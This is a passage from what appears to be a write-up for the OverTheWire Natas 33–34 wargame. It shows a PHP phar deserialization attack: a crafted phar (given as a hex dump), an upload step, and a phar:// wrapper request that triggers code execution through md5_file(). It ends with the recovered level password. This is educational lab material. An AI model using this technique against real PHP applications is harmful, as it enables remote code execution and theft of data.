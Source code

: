 With `$signature=True`, the application will execute `passthru("php " . "getpwd.php");` and show the password.

Run `php make_phar.php` to make phar, but it's not working:

```
PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "test.phar" disabled by the php.ini setting phar.readonly in /home/ph3/Desktop/make_phar.php:7
Stack trace:
#0 /home/ph3/Desktop/make_phar.php(7): Phar->__construct()
#1 {main}
  thrown in /home/ph3/Desktop/make_phar.php on line 7
```

Try access `/etc/php/8.1/cli/php.ini` with sudo, change `phar.readonly = On` to `phar.readonly = Off` and remove semicolon at the beginning of the line, look like that:

```
[Phar]
; https://php.net/phar.readonly
phar.readonly = Off
```

Re-create phar by `php make_phar.php`, we get the content of `test.phar` file:

```
3c3f 7068 7020 5f5f 4841 4c54 5f43 4f4d
5049 4c45 5228 293b 203f 3e0d 0aae 0000
0001 0000 0011 0000 0001 0000 0000 0078
0000 004f 3a38 3a22 4578 6563 7574 6f72
223a 333a 7b73 3a31 383a 2200 4578 6563
7574 6f72 0066 696c 656e 616d 6522 3b73
3a31 303a 2267 6574 7077 642e 7068 7022
3b73 3a31 393a 2200 4578 6563 7574 6f72
0073 6967 6e61 7475 7265 223b 623a 313b
733a 3134 3a22 0045 7865 6375 746f 7200
696e 6974 223b 623a 303b 7d08 0000 0074
6573 742e 7478 7404 0000 000f f335 6204
0000 000c 7e7f d8a4 0100 0000 0000 0074
6573 745b 3c34 c8f8 d68b cc7c a52a 5720
badb 5c7f 03ee d634 1ae6 272d 52df 5543
5f53 6f03 0000 0047 424d 42
```

Now upload file `test.phar`. Same the above, we need change the filename when upload to `test.phar`, default is PHPSESSID. We also get the response:

```
The update has been uploaded to: /natas33/upload/test.phar
Firmware upgrad initialised.
/natas33/uploadFailur! MD5sum mismatch!
Upload Firmware Update:
```

Resend POST the previous request with `filename=phar://test.phar/test.txt` in Body Parameters to deserialize Phar, the application will run md5_file() function and execute code in `getpwd.php`, we get the password:

```
/natas33/uploadCongratulations! Running firmware update: getpwd.php <br>shu5ouSu6eicielahhae0mohd4ui5uig
```

### natas34

Login natas34 with password: shu5ouSu6eicielahhae0mohd4ui5uig, we get the response:

```
Congratulations! You have reached the end... for now. 
```